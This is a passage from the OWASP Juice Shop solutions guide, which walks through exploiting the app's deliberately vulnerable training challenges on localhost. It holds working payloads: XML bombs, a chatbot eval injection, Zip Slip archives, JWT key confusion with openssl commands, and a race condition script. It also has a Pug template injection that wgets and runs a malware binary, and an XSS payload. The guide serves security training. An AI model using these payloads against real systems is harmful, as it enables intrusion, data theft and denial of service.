<<use-a-deprecated-b2b-interface-that-was-not-properly-shut-down,Use a deprecated B2B interface that was not properly shut down>>
challenge.
. On Linux, prepare an XML file which defines and uses an external
entity which will require a long time to resolve: `<!ENTITY xxe
SYSTEM "file:///dev/random">`. On Windows there is no similar feature
to retrieve randomness from the OS via an "endless" file, so the
attack vector has to be completely different. A _quadratic blowup_
attack works fine, consisting of a single large entity like `+<!ENTITY
a "dosdosdosdos...dos"+`> which is replicated very often as in
`+<foo>&a;&a;&a;&a;&a;...&a;</foo>+`.
. Upload this file through the _File Complaint_ dialog and observe how
the request processing takes up to 2 seconds and then times out (to
prevent you from actually DoS'ing your application) but still solving
the challenge.

_You might feel tempted to try the classic *Billion laughs attack* but
will quickly notice that the XML parser is hardened against it, giving
you a status `410` HTTP error saying `Detected an entity reference
loop`._

____
In computer security, a billion laughs attack is a type of
denial-of-service (DoS) attack which is aimed at parsers of XML
documents.

It is also referred to as an XML bomb or as an exponential entity
expansion attack.

The example attack consists of defining 10 entities, each defined as
consisting of 10 of the previous entity, with the document consisting
of a single instance of the largest entity, which expands to one
billion copies of the first entity.

In the most frequently cited example, the first entity is the string
"lol", hence the name "billion laughs". The amount of computer memory
used would likely exceed that available to the process parsing the XML
(it certainly would have at the time the vulnerability was first
reported).

While the original form of the attack was aimed specifically at XML
parsers, the term may be applicable to similar subjects as well.

The problem was first reported as early as 2002, but began to be
widely addressed in 2008.

Defenses against this kind of attack include capping the memory
allocated in an individual parser if loss of the document is
acceptable, or treating entities symbolically and expanding them
lazily only when (and to the extent) their content is to be used.footnote:6[https://en.wikipedia.org/wiki/Billion_laughs_attack]

[,xml]
----
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
----
____

=== Permanently disable the support chatbot

. The Chatbot is built using an npm module called 'juicy-chat-bot'. The
source code for the same can be found
https://github.com/juice-shop/juicy-chat-bot[here]
. Looking through the source, one can determine that user messages are
processed inside a VM context, with a function called `process`
. The vulnerable segment of the code is
https://github.com/juice-shop/juicy-chat-bot/blob/15e424609dc59ada5bf0c114ca7a5ffc718501cc/index.js#L31[this statement],
that the bot uses to remember usernames. The command
*this.factory.run(`users.addUser("$\{token}", "$\{name}")`)* is
equivalent to an eval statement inside the VM context. This can be
exploited by including `"` and `)` in one's username
. If one sets their username to *admin"); process=null;
users.addUser("1337", "test*, the final statement that gets executed
would be
+
`users.addUser("token", "admin");` +
`process = null;` +
`users.addUser("1337", "test")`

The process function, is therefore set to null and any further attempt
by the bot to process a user's message would result in an error

image:appendix/killed-chatbot.png[Killed chatbot])

=== Gain read access to an arbitrary local file on the web server

. Log in with any user account and go to _Account_ > _Privacy and Security_ > _Request Data Erasure_.
. Fill in the fields _Confirm Email Address_ and _Answer_ with random data and submit. Using your browser's developer tools or an intercepting proxy, notice that a `POST` request is issued with two body parameters (`email` and `securityAnswer`)
. Using your favorite fuzzing tool and wordlist, start to fuzz the body parameters.
. Notice an unhandled `500 Internal Server Error` when a parameter `layout` is provided in the request. Also, notice that the error response says `Error: ENOENT: no such file or directory` indicating that we might have hit the LFR vulnerability. We can also see the full pathname of the file the application is trying to access: `<root_directory>/juice-shop/views/<value_of_layout_parameter>`
. Based on the previous error message, we can guess (or bruteforce) a valid filename. For example, issuing another `POST` request with the following body will solve the challenge: `layout=../package.json`

This vulnerability arises when ExpressJS is using Handlebars as a template engine and it can even lead to RCE in some cases. You can read more about it in this https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/[blog post by Juice Shop's former Google Summer of Code student Shoeb Patel].

== ⭐⭐⭐⭐⭐⭐ Challenges

=== Overwrite the Legal Information file [[overwrite-the-legal-information-file]]

. Combing through the updates of the
https://twitter.com/owasp_juiceshop[@owasp_juiceshop] Twitter
account you will notice
https://twitter.com/owasp_juiceshop/status/1107781073575002112.
+
image::appendix/tweet_zip-complaints.png[Tweet advertising ZIP uploads in "File Complaint"]

. Researching ZIP-based vulnerabilities should also yield
https://res.cloudinary.com/snyk/image/upload/v1528192501/zip-slip-vulnerability/technical-whitepaper.pdf[Zip Slip] which
exploits directory traversal filenames in file archives.
. As the Legal Information file you need to override lives in
http://localhost:3000/ftp/legal.adoc and uploading files via _File
Complaint_ does not give any feedback where they are stored, an
iterative directory traversal approach is recommended.
. Prepare a ZIP file (on Linux) with `zip exploit.zip ../ftp/legal.adoc`.
. Log in as any user at http://localhost:3000/#/login.
. Click _Contact Us_ and _Complain?_ to get to the _File Complaint_
screen at http://localhost:3000/#/complain.
. Type in any message and attach your ZIP file, then click _Submit_.
. The challenge will _not_ be solved. Repeat steps 5-7 but with `zip
exploit.zip ../../ftp/legal.adoc` as the payload.
. The challenge will be marked as solved! When you visit
http://localhost:3000/ftp/legal.adoc you will see your overwritten
Legal Information!

____
Zip Slip is a form of directory traversal that can be exploited by
extracting files from an archive. The premise of the directory
traversal vulnerability is that an attacker can gain access to parts
of the file system outside of the target folder in which they should
reside. The attacker can then overwrite executable files and either
invoke them remotely or wait for the system or user to call them, thus
achieving *remote command execution* on the victim's machine. The
vulnerability can also cause damage by overwriting configuration files
or other sensitive resources, and can be exploited on both client
(user) machines and servers. footnote:8[https://res.cloudinary.com/snyk/image/upload/v1528192501/zip-slip-vulnerability/technical-whitepaper.pdf]
____

=== Forge a coupon code that gives you a discount of at least 80%

For this challenge there are actually two distinct _solution paths_ that
are both viable. These will be explained separately as they utilize
totally different attack styles.

==== _Pattern analysis_ solution path

. Solve challenge
<<access-a-salesmans-forgotten-backup-file,Access a salesman's forgotten backup file>>
to get the `coupons_2013.adoc.bak` file with old coupon codes which you
find listed below.
. There is an obvious pattern in the last characters, as the first
eleven codes end with `gC7sn` and the last with `gC7ss`.
. You can rightfully speculate that the last five characters represent
the actual discount value. The change in the last character for the
12th code comes from a different (probably higher) discount in
December! 🎅
. Check the official Juice Shop Twitter account for a valid coupon
code: https://twitter.com/owasp_juiceshop
. At the time of this writing - January 2017 - the broadcasted coupon
was `n<Mibh.u)v` promising a 50% discount.
. Assuming that the discount value is encoded in the last 2-5
characters of the code, you could now start a trial-end-error or
brute force attack generating codes and try redeeming them on the
_Your Basket_ page. At some point you will probably hit one that
gives 80% or more discount.
. You need to _Checkout_ after redeeming your code to solve the
challenge.

----
 n<MibgC7sn
 mNYS#gC7sn
 o*IVigC7sn
 k#pDlgC7sn
 o*I]pgC7sn
 n(XRvgC7sn
 n(XLtgC7sn
 k#*AfgC7sn
 q:<IqgC7sn
 pEw8ogC7sn
 pes[BgC7sn
 l}6D$gC7ss
----

==== _Reverse engineering_ solution path

. Going through the dependencies mentioned in `package.json.bak` you
can speculate that at least one of them could be involved in the
coupon code generation.
. Narrowing the dependencies down to crypto or hashing libraries you
would end up with `hashids`, `jsonwebtoken` and `z85` as candidates.
. It turns out that `z85`
(https://rfc.zeromq.org/spec:32/Z85/[ZeroMQ Base-85 Encoding]) was
chosen as the coupon code-creation algorithm.
. Visit https://www.npmjs.com/package/z85 and check the _Dependents_
tab:
+
image::appendix/z85-dependents.png[Dependents of z85 on npmjs.com]

. If you have Node.js installed locally run `npm install -g z85-cli` to
install https://www.npmjs.com/package/z85-cli - a simple command
line interface for `z85`:
+
image::appendix/z85-cli.png[z85-cli page on npmjs.com]

. Check the official Juice Shop Twitter account
https://twitter.com/owasp_juiceshop for a valid coupon code. At the
time of this writing - January 2017 - the broadcasted coupon was
`n<Mibh.u)v` promising a 50% discount.
+
image::appendix/coupon_code-january2017.png[Coupon Code for January 2017 on @owasp_juiceshop]

. Decrypting this code with `z85 -d "n<Mibh.u)v"` returns `JAN17-50`
. Encrypt a code valid for the current month with 80% or more discount,
e.g. `z85 -e JAN17-80` which yields `n<Mibh.v0y`.
. Enter and redeem the generated code on the _Your Basket_ page and
_Checkout_ to solve the challenge.

==== _Cloud computing_ solution path

. From February 2019 onward the monthly coupon tweets begin with a
robot face emoji in square brackets. Maybe the Juice Shop sales team
forgot to send coupons too often so that the process was automated at
some point?
+
image::appendix/coupon_tweet_bot.png[Coupon tweeted by a bot]

. Some Internet research will bring you to the
https://www.npmjs.com/package/juicy-coupon-bot[NPM module `juicy-coupon-bot`]
and its associated GitHub repository
https://github.com/juice-shop/juicy-coupon-bot. ℹ️ _As this is
not part of the Juice Shop repo itself and it is publicly accessible,
analyzing this repository is *not* considered cheating!_
. Open the
https://github.com/juice-shop/juicy-coupon-bot/blob/master/.github/workflows/coupon-distribution.yml[`.github/workflows/coupon-distribution.yml`]
to see how the bot's _Monthly Coupon Distribution_ workflow is set
up. You can also look at the job results and logs at
https://github.com/juice-shop/juicy-coupon-bot/actions?query=workflow%3A%22Monthly+Coupon+Distribution%22.
. If you read the logs of the _Distribute coupons_ step, you will
notice an `info: [✔] API lookup success` message at the very
beginning. But where exactly does the bot get its coupon code from?
. Read the code of the `juicy-coupon-bot` carefully and optionally try
to play with it locally after installing it via `npm i -g
juicy-coupon-bot`. You can learn a few things that way:
 ** Running `juicy-coupon-bot` locally will
https://github.com/juice-shop/juicy-coupon-bot/blob/master/lib/statusText.js[prepare the text for a tweet with a coupon code]
for the current month and with a discount between 10% and 40% and
log it to your console.
 ** The coupon code is actually retrieved
https://5j4d1u7jhf.execute-api.eu-west-1.amazonaws.com/default/JuicyCouponFunc[via an AWS API call]
which returns valid coupons with different discounts and their
expiration date as JSON, e.g.
`{"discountCodes":{"10%":"mNYS#iv#%t","20%":"mNYS#iw00u","30%":"mNYS#iw03v","40%":"mNYS#iw06w"},"expiryDate":"2019-02-28"}`
. You could collect this data for several months and basically fall
back to the
<<pattern-analysis-solution-path,Pattern analysis solution path>>
only with more recent coupons.
. For an easier and more satisfying victory over this challenge, take a
look at the commit history of the GitHub repository
https://github.com/juice-shop/juicy-coupon-bot, though.
. Going back in time a bit, you will learn that the coupon retrieval
via AWS API backed by a Lambda function was not the original
implementation. Commit
https://github.com/juice-shop/juicy-coupon-bot/commit/fde2003535598ad3c4edc17ad9ffcdc9c589d3c5[`fde2003`]
introduced the API call, replacing the previous programmatic creation
of a coupon code.
+
image::appendix/git-diff_coupon_lambda.png[Diff of local and cloud-based coupon creation]

. You now have learned the coupon format and that it is `z85` encoded.
You can now either manipulate your local clone of the "pre-`fde2003`
version" of the `juicy-coupon-bot` or fall back to the last part of
the
<<reverse-engineering-solution-path,Reverse engineering solution path>>
where you find and install `z85-cli` to conveniently create your own
80%+ coupon locally.

=== Solve challenge #999

. Solve any other challenge
. Inspect the cookies in your browser to find a `continueCode` cookie
. The `package.json.bak` contains the library used for generating these
continue codes: `hashid`
. Visit http://hashids.org/ to get some information about the
mechanism
. Follow the link labeled _check out the demo_
(http://codepen.io/ivanakimov/pen/bNmExm)
. The Juice Shop simply uses the example salt (`this is my salt`) and
also the default character range
(`abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890`)
from that demo page. It just uses a minimum length of `60` instead of
`8` for the resulting hash.
. Encoding the value `999` with the demo (see code below) gives you the
hash result
`69OxrZ8aJEgxONZyWoz1Dw4BvXmRGkM6Ae9M7k2rK63YpqQLPjnlb5V5LvDj`
. Send a `PUT` request to the URL
http://localhost:3000/rest/continue-code/apply/69OxrZ8aJEgxONZyWoz1Dw4BvXmRGkM6Ae9M7k2rK63YpqQLPjnlb5V5LvDj
to solve this challenge.

[,javascript]
----
   var hashids = new Hashids("this is my salt", 60, "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890");

  var id = hashids.encode(999);
  var numbers = hashids.decode(id);

  $("#input").text("["+numbers.join(", ")+"]");
  $("#output").text(id);
----

=== Forge an almost properly RSA-signed JWT token

==== With Burp Suite

. Use your favorite forced directory browsing tool (or incredible
guessing luck) to identify http://localhost:3000/encryptionkeys as
having directory listing enabled.
. Download the application's public JWT key from
http://localhost:3000/encryptionkeys/jwt.pub
+
image::appendix/jwt2-findkey.PNG[encryption keys]

. Download and install the
https://portswigger.net/burp/communitydownload[Burp Suite Community Edition]
. In the _BApp Store_ tab under the _Extender_ tab within Burp Suite
find and install the
https://portswigger.net/bappstore/82d6c60490b540369d6d5d01822bdf61[JSON Web Token Attacker]
extension (aka _JOSEPH_)
+
image::appendix/jwt2-burpextension.PNG[load extension]

. Send any captured request that has an `Authorization: Bearer` token
to Burp's _Repeater_.
. Once in _Repeater_, click the _JWS_ tab, then the _Payload_ tab
beneath and modify the email parameter to be `rsa_lord@juice-sh.op`.
+
image::appendix/jwt2-request.PNG[modify payload]

. Next, click the _Attacker_ tab, select _Key Confusion_, then click
_Load_.
. Paste in the contents of the `jwt.pub` file without the `-----BEGIN
RSA PUBLIC KEY-----` and `-----END RSA PUBLIC KEY-----` lines.
+
image::appendix/jwt2-keyconfusion.PNG[key confusion]

. Click _Update_ and then _Go_ in the top left to send the modified
request via Burp and solve this challenge!

👏 Kudos to https://github.com/ZonkSec[Tyler Rosonke] for providing
this solution.

==== With Linux and online tools

. Download the application's public JWT key from
http://localhost:3000/encryptionkeys/jwt.pub
. The authentication token is of form
`header_base64url.payload_base64url.signature_base64url`. Copy the
JWT header from a request, decode it and change the algorithm to
HS256 using a tool like https://cryptii.com/. +
The server uses a private RSA key to sign the token and a public one
to verify it when using RS256, but when using HS256 there is only one
key for both, and, for verification, the server always uses the
public RSA key disregarding the algorithm specified in the header.
image:appendix/token_header_encode.png[edit header]
. Edit the email in the payload to `rsa_lord@juice-sh.op`.
image:appendix/token_payload_encode.png[edit body]
. Encode the server key to hex `cat jwt.pub | xxd -p | tr -d "\\n"`
. Sign your new token with the server key with hmac `echo -n
"new_header.new_payload" | openssl dgst -sha256 -mac HMAC -macopt
hexkey:server_key_hex`
. Encode your signature to base64url: `echo -n "signature" | xxd -r -p
| base64 | sed 's/+/-/g; s/\//_/g; s/=//g' | tr -d "\\n"`
. Place the new token in a cookie or send an authenticated request with
the it to solve the challenge.

👏 Kudos to https://github.com/teodor440[teodor440] for providing this
solution.

=== Like any review at least three times as the same user

. Liking a review normally results in a request to
http://localhost:3000/rest/products/reviews which associates the
email of the user with the review (identified by the JSON body of
e.g. `{id: "ZQdzyRCbwQ4ys3PCG"}`) and also increases its like counter
by one.
. If you try to replay the same request you will get a `403 Forbidden`
HTTP status with `{"error":"Not allowed"}` in the response.
. Write a script that simultaneously executes three requests to
http://localhost:3000/rest/products/reviews with body e.g. `{id:
"ZQdzyRCbwQ4ys3PCG"}` and run it.
. If your 3 requests get handled asynchronously within an (artificial)
150ms time window, you will cause a race condition and all will get
through and each increase the like counter by one to a total of
three!
. Back in your browser you should now see the corresponding challenge
marked as solved!

The following https://github.com/aaronhnatiw/race-the-web[RaceTheWeb]
config does the trick as well:

[,toml]
----
# Multiple Likes
# Save this as multiple-likes.toml
# Get comment information from this endpoint first: http://localhost:3000/rest/products/<id>/reviews
# Then repalce id values in body parameter of this file
# You need to replace the bearer token as well
# open browser dev tools, like any of the comment, then inspect the traffic to obtain a valid bearer token
# Launch this file by doing ./racethweb multiple-likes.toml
count = 3
verbose = true
[[requests]]
    method = "POST"
    url = "http://localhost:3000/rest/products/reviews"
    body = "{\"id\":\"QEBb8RKLor69dsXkB\"}"
    headers = ["Content-Type: application/json","Authorization: Bearer XXX"]
----

=== Log in with the support team's original user credentials

_Solving this challenge requires http://keepass.info[KeePass 2.x]
installed on your computer. If you are using a non-Windows OS you can
try using some unofficial port but there is no guarantee the file can be
opened on those._

. Find out that the support team's email address is `support@juice-sh.op` eiher via deduction of the pattern from other users or by completing the <<retrieve-a-list-of-all-user-credentials-via-sql-injection,Retrieve a list of all user credentials via SQL Injection>> challenge.
. Brute forcing the password on of this user <httpc://localhost:3000/#/login> is an entirely hopeless approach.
. You might notice that the support team has a KeePass database file located in
http://localhost:3000/ftp/incident-support.kdbx and that it
is conveniently _not blocked_ by the file type filter otherwise protecting this folder.
. Download and install KeePass 2.x from http://keepass.info
. Trying to brute force the password on this KeePass file is unlikely to succeed at this stage.
. Inspecting `main.js` for information leakage (e.g. by
searching for `support`) will yield an interesting log statement that
is printed when the support logs in with the wrong password:
+
image::appendix/minified-js_support-hint.png[Support team login hint in minified JS]

. The logged text is in Romanian language: `Parola echipei de asistență nu respectă politica corporativă pentru conturile privilegiate! Vă rugăm să schimbați parola în consecință!`
. Running this through an online translator yields something like:
`The password of the support team does not respect the corporate policy for privileged accounts! Please change your password accordingly!`
. More interesting even is the Regular Expression `(?=.*[a-z])(?=.*[A-Z])(?=.*\d)(?=.*[@$!%*?&])[A-Za-z\d@$!%*?&]{12,30}` being used to check for a specific password pattern. You can assume that this is the equivalent of the mentioned corporate policy.
. This RegEx translates into the following password requirements
 ** a minimum length of 12 characters
 ** a maximum length of 30 characters
 ** at least one lowercase character `a-z`
 ** at least one uppercase character `A-Z`
 ** at least one number `0-9`
 ** at least one special character `@$!%*?&`
. Note also, that this RegEx would not accept _any other_ special characters or letters than the ones mentioned above.
. Assume that the support team followed the password policy for its user password _and_ also for its KeePass file.
. Furthermore, presume that they might have used a weaker password on their KeePass database, because their normal workflow might involve getting the user credentials from it when logging in to the application. Therefore, the KeePass file should be easier to break into.
. Use a brute force script (applying the password pattern restrictions known to you) to break into the KeePass file with the terribly chosen password `Support2022!`.
. Find the password for the support team user account in the `prod`
entry of the KeePass file.
+
image::appendix/keepass-list.png[Unlocked KeePass file]

. Log in with `support@juice-sh.op` as _Email_ and
`J6aVjTgOpRs@?5l!Zkq2AYnCE@RF$P` as _Password_ to beat this
challenge.
+
image::appendix/keepass-prod_entry.png[Credentials of the support team in the KeePass file]

=== Unlock Premium Challenge to access exclusive content

. Inspecting the HTML source of the corresponding row in the _Score
Board_ table reveals a HTML comment that is obviously encrypted:
`+<!--IvLuRfBJYlmStf9XfL6ckJFngyd9LfV1JaaN/KRTPQPidTuJ7FR+D/nkWJUF+0xUF07CeCeqYfxq+OJVVa0gNbqgYkUNvn//UbE7e95C+6e+7GtdpqJ8mqm4WcPvUGIUxmGLTTAC2+G9UuFCD1DUjg==-->+`.
+
image::appendix/inspect-premium_challenge.png[DOM inspection of the Unlock Premium Challenge button]

. This is a cipher text that came out of an AES-encryption using AES256
in CBC mode.
. To get the key and the IV, you should run a _Forced Directory
Browsing_ attack against the application. You can use OWASP ZAP for
this purpose.
 .. Of the word lists coming with OWASP ZAP only
`directory-list-2.3-big.txt` and
`directory-list-lowercase-2.3-big.txt` contain the directory with
the key file.
 .. The search will uncover http://localhost:3000/encryptionkeys as
a browsable directory
+
image::appendix/encryptionkeys_directory.png[Browsable directoy "encryptionkeys"]

 .. Open http://localhost:3000/encryptionkeys/premium.key to
retrieve the AES encryption key `EA99A61D92D2955B1E9285B55BF2AD42`
and the IV `1337`.
. In order to decrypt the cipher text, it is best to use `openssl`.
 ** `echo
"IvLuRfBJYlmStf9XfL6ckJFngyd9LfV1JaaN/KRTPQPidTuJ7FR+D/nkWJUF+0xUF07CeCeqYfxq+OJVVa0gNbqgYkUNvn//UbE7e95C+6e+7GtdpqJ8mqm4WcPvUGIUxmGLTTAC2+G9UuFCD1DUjg=="
| openssl enc -d -aes-256-cbc -K EA99A61D92D2955B1E9285B55BF2AD42
-iv 1337133713371337 -a -A`
 ** The plain text is:
`/this/page/is/hidden/behind/an/incredibly/high/paywall/that/could/only/be/unlocked/by/sending/1btc/to/us`
. Visit
http://localhost:3000/this/page/is/hidden/behind/an/incredibly/high/paywall/that/could/only/be/unlocked/by/sending/1btc/to/us
to solve this challenge and marvel at the premium VR wallpaper!
(Requires dedicated hardware to be viewed in all its glory.)

=== Perform a Remote Code Execution that occupies the server for a while without using infinite loops

. Follow steps 1-7 of the challenge
<<perform-a-remote-code-execution-that-would-keep-a-less-hardened-application-busy-forever,Perform a Remote Code Execution that would keep a less hardened application busy forever>>.
. As _Request Body_ put in `{"orderLinesData":
"/((a+)+)b/.test('aaaaaaaaaaaaaaaaaaaaaaaaaaaaa')"}` - which will
trigger a very costly Regular Expression test once executed.
. Submit the request by clicking _Execute_.
. The server should eventually respond with a `503` status and an error
stating `Sorry, we are temporarily not available! Please try again
later.` after roughly 2 seconds. This is due to a defined timeout so
you do not really DoS your Juice Shop server.

=== Request a hidden resource on server through server

. Solve
<<infect-the-server-with-juicy-malware-by-abusing-arbitrary-command-execution,Infect the server with "juicy malware" by abusing arbitrary command execution>>
at least to the point where you have access to the "juicy malware"
executables.
. Similar to that SSTi challenge, the vulnerable place for this one is
found on the http://localhost:3000/profile page.
. The only promising input field for an SSRF attack is the _Gravatar
URL_. Open your browser's DevTools and watch the _Network_ tab.
. Type any URL (e.g. https://placekitten.com/100/100) into _Gravatr
URL_ and click _Link Gravatar_. You will realize a request
http://localhost:3000/profile/image/url with the
chosen https://placekitten.com/100/100 as parameter `imageUrl`.
. You will find no HTTP request to https://placekitten.com/100/100
going out from your browser, though. As the image was retrieved and
associated with your profile, it must have been downloaded _by the
Juice Shop server_.
+
image::appendix/ssrf_placekitten.png[Placekitten image associated with a user profile]

. To solve this challenge, you need to find a secret URL hidden inside
the "juicy malware" and simulate a self-targeted SSRF attack with it.
. Use your favorite decompiler(s) to see what is going on inside the
malware program...
. ...or execute the malware while tunneling all its traffic through a
proxy.
. Either way you should be able to identify the URL being called by it
is
http://localhost:3000/solve/challenges/server-side?key=tRy_H4rd3r_n0thIng_iS_Imp0ssibl3
. Visiting that URL directly will not do anything, as it needs to be
called through the _Gravatar Link_ field that was presumably
vulnerable to SSRF
. Paste the URL in and click _Link Gravatar_ to get the expected
challenge solved notification!

=== Infect the server with juicy malware by abusing arbitrary command execution

. Perform the totally obvious Google search for `juicy malware` to find
https://github.com/J12934/juicy-malware
. Alternatively you also find three `.url` files with direct links in
http://localhost:3000/ftp/quarantine but you'll probably need to
understand how to solve any of
<<access-a-developers-forgotten-backup-file,Access a developer's forgotten backup file>>,
<<access-a-salesmans-forgotten-backup-file,Access a salesman's forgotten backup file>>
or
<<access-a-misplaced-siem-signature-file,Access a misplaced SIEM signature file>>
first.
. Your goal is to use RCE to make the server download and execute the
malware version for the server OS, so on Linux you might want to run
something like `+wget -O malware
https://github.com/J12934/juicy-malware/blob/master/juicy_malware_linux_64?raw=true
&& chmod +x malware && ./malware+`
. You probably realized by now that http://localhost:3000/profile is
not an Angular page? This page is written using
https://pugjs.org[Pug] which happens to be a Template engine and
therefore perfectly suited for SSTi mischief.
. Set your _Username_ to `1+1` and click _Set Username_. Your username
will be just shown as `1+1` under the profile picture.
. Trying template injection into Pug set _Username_ to `#{1+1}` and
click _Set Username_. Your username will now be shown as `2` under
the profile picture!
. Craft a payload that will abuse the lack of encapsulation of
JavaScript's `global.process` object to dynamically load a library
that will allow you to spawn a process on the server that will then
download and execute the malware.
. The payload might look like
`+#{global.process.mainModule.require('child_process').exec('wget -O
malware
https://github.com/J12934/juicy-malware/blob/master/juicy_malware_linux_64?raw=true
&& chmod +x malware && ./malware')}+`. Submit this as _Username_ and
(on a Linux server) the challenge should be marked as solved

ℹ️ Remember that you need to use the right malware file for your
server's operation system and also their synonym command for `wget`.

=== Embed an XSS payload into our promo video

. The author
https://twitter.com/bkimminich/status/1114621693299916800[tweeted about a new promotion video]
back in `v8.5.0` from his personal account, openly spoilering the URL
http://localhost:3000/promotion
+
image::appendix/tweet_promotion.png[Tweet promoting a new in-app promotion video]

. After changing the video sported on the promotion page in `v12.5.0`,
the Juice Shop's own Twitter account
https://twitter.com/owasp_juiceshop/status/1350381894010077184[published another message],
this time spoilering the URL http://demo.owasp-juice.shop/promotion
+
image::appendix/tweet_promotion2.png[Tweet promoting the OWASP membership ad promotion video]

. Visit http://localhost:3000/promotion to watch the video
advertising
https://owasp.org/membership/[the benefits of an OWASP membership]!
You will notice that it comes with subtitles enabled by default.
+
image::appendix/promo_video.png[In-app promotion video]

. Right-click and select _View Source_ on the page to learn that it
loads its video from http://localhost:3000/video and that the
subtitles are directly embedded in the page itself.
. Inspecting the response for http://localhost:3000/video in the
_Network_ tab of your DevTools shows an interesting header
`Content-Location: /assets/public/videos/owasp_promo.mp4`
. Trying to access the video directly at
http://localhost:3000/assets/public/videos/owasp_promo.mp4 works
fine.
. Getting a directory listing for
http://localhost:3000/assets/public/videos does not work
unfortunately.
. Knowing that the subtitles are in
https://www.w3.org/TR/webvtt1/[WebVTT] format (from step 3) a lucky
guess would be that a corresponding `.vtt` file is available
alongside the video.
. Accessing
http://localhost:3000/assets/public/videos/owasp_promo.vtt proves
this assumption correct.
. As the subtitles are not loaded separately by the client, they must
be embedded on the server side. If this embedding happens without
proper safeguards, an XSS attack would be possible if the subtitles
files could be overwritten.
. The prescribed XSS payload also hints clearly at the intended attack
against the subtitles, which are themselves enclosed in a `<script>`
tag, which the payload will try to close prematurely with its
starting `</script>`.
. To successfully overwrite the file, the Zip Slip vulnerability
behind the
<<overwrite-the-legal-information-file,Overwrite the Legal Information file>>
challenge can be used.
. The blind part of this challenge is the actual file location in the
server file system. Trying to create a Zip file with any path trying
to traverse into `../../assets/public/videos/` will fail. Notice
that `../../` was sufficient to get to the root folder in
<<overwrite-the-legal-information-file,Overwrite the Legal Information file>>.
. This likely means that there is a deeper directory structure in
which `assets/` resides.
. This actual directory structure on the server is created by the
AngularCLI tool when it compiles the application, but is unfortunately not fully leaked anywhere in the client-side code.
. You can get a hint on a possible base directory `frontend/` from http://localhost:3000/main.js and several other JavaScript files you find in the _Sources_ tab of your Browser's DevTools from the fact that they all start with `"use strict";(self.webpackChunkfrontend=self.webpackChunkfrontend||[])` where `frontend` is the Angular project name.
. Trying `../../frontend/assets/public/videos/` will still fail as your Zip Slip directory traversal payload.
. Either by intense brute-forcing, lucky guessing or heavy googling you might eventually end up with a path prefix of
`frontend/dist/frontend/` in which `assets/` resides on the server. Thus, the path you need to work with, is `frontend/dist/frontend/assets/`. Note that there really is no "right" way to find this out, but here are some possible ways:
 ** You can easily find many Angular examples where some `dist/` folder is involved in the application packaging
 ** Via Google you might stumble across https://vorozco.com/blog/2019/2019-09-11-Packagin-Angular-8-Apps-War.html which mentions `<directory>src/main/frontend/dist/frontend</directory>` as their package folder.
 ** You could create a list of possible involved package names and then create different Zip Slip payloads for these, adding one and eventually two additional recursions into deeper directory levels.
 ** As long as `frontend` and `dist` are in your list, you will end up with the right permutation of `frontend/dist/frontend` on a depth level of 3 eventually.
. Prepare a ZIP file with a `owasp_promo.vtt` inside that contains the
prescribed payload of `</script><script>alert(`xss`)</script>`
with `zip exploit.zip
../../frontend/dist/frontend/assets/public/video/owasp_promo.vtt`
(on Linux).
. Upload the ZIP file on http://localhost:3000/#/complain.
. The challenge notification will not trigger immediately, as it
requires you to actually execute the payload by visiting
http://localhost:3000/promotion again.
. You will see the alert box and once you go _Back_ the challenge
solution should trigger accordingly.
